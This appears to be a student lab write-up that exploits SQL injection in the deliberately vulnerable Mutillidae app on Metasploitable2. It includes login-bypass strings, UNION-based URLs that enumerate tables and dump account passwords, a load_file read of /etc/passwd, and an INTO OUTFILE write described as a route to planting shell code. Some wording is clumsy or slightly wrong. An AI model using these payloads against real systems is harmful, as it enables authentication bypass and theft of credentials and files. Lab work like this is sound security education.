 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![image](https://github.com/Naadira/sqlinjection/assets/128135126/7eff6e94-7319-4612-afa5-3ef91bf66d87)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. 325657622-28300288-17b2-4d70-b1d6-3ee0a018feac
![image](https://github.com/Naadira/sqlinjection/assets/128135126/60aa7888-8ef3-4ffb-bbb3-01d0fe7e7f95)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/Naadira/sqlinjection/assets/128135126/c1f86b57-2a8a-4458-82b5-770a1bab73d5)

Click on the menu Login/Register and register for an account
![image](https://github.com/Naadira/sqlinjection/assets/128135126/c707cb96-f783-43f8-ab36-28b68196a203)

Click on the link “Please register here”
![image](https://github.com/Naadira/sqlinjection/assets/128135126/9b2a4854-9c54-4354-a1c1-feb6b4333d4e)

Click on “Create Account” to display the following page
![image](https://github.com/Naadira/sqlinjection/assets/128135126/8eb662ee-7086-4c90-99d4-d33c6e31760a)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![image](https://github.com/Naadira/sqlinjection/assets/128135126/1ac25ec9-cccd-4a9c-a81a-ac54e8e2101a)

Click “Login”. The logged in page will show as below:
![image](https://github.com/Naadira/sqlinjection/assets/128135126/1c6f035e-37b0-42a7-9d92-b81993a4e576)

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/Naadira/sqlinjection/assets/128135126/8ee2c044-36cc-4da1-8149-115824a5c5f2)

Click the login button and you will see it enter into the administrator page. 325658372-b7b5d131-fcc9-4084-8173-4cb7fe583f0b
![image](https://github.com/Naadira/sqlinjection/assets/128135126/93f28916-a9c1-4bac-8bc2-c540681a4941)

## Union-based SQL injection:

UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info” After logging out, Now choose the menu as shown below
![image](https://github.com/Naadira/sqlinjection/assets/128135126/cdc01b06-e01e-4e7a-b81c-ea4b73329496)
![image](https://github.com/Naadira/sqlinjection/assets/128135126/ddb99f11-7530-41ab-97f0-0aa39d4f3681)
![image](https://github.com/Naadira/sqlinjection/assets/128135126/4f83a835-b97d-4ae9-a0e7-88a20b6d647a)
![image](https://github.com/Naadira/sqlinjection/assets/128135126/db925363-d281-4a85-82ba-017396a5af3d)
![image](https://github.com/Naadira/sqlinjection/assets/128135126/91deb4ca-6bfd-4a2e-8619-54ba0b74bd80)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/Naadira/sqlinjection/assets/128135126/ef8608b3-f9db-4a7b-ae2b-8f93f13fa3eb)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6. The browser url of this info page need to be modified with the url as below: http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Naadira/sqlinjection/assets/128135126/b4640265-039e-46d9-9a7d-50a81b957587)

After adding the order by 6 into the existing url , the following error statement will be obtained: 325659955-4c68e9ec-cb59-44dc-8a1f-3e56b3af0041
![image](https://github.com/Naadira/sqlinjection/assets/128135126/726125ba-31c9-4eef-8aa0-1bae566ceb47)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/Naadira/sqlinjection/assets/128135126/c69e5cbe-b89a-43ce-a0c9-649b867182a8)

As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/Naadira/sqlinjection/assets/128135126/c55264e6-c2e7-4f2e-af8f-af7ad7b2cb69)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/Naadira/sqlinjection/assets/128135126/a3bd9dcd-067f-4546-82cc-ab9340037bc2)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/Naadira/sqlinjection/assets/128135126/0b061d1a-c0e7-4ab0-bf4d-b5730bb45680)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Naadira/sqlinjection/assets/128135126/a17a7429-bf25-4164-8963-1f216fc19acf)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/Naadira/sqlinjection/assets/128135126/5cbbe3de-dd29-4f16-a637-82e4d873da7a)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Naadira/sqlinjection/assets/128135126/bea80f2f-f7c5-4ad2-829c-c915deb111c0)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Naadira/sqlinjection/assets/128135126/4f29083a-25fa-4c3f-ba25-053309ef4287)

## Reading and writing files on the web-server:
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Naadira/sqlinjection/assets/128135126/43635110-463b-4b2b-9a84-ab156c836b72)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
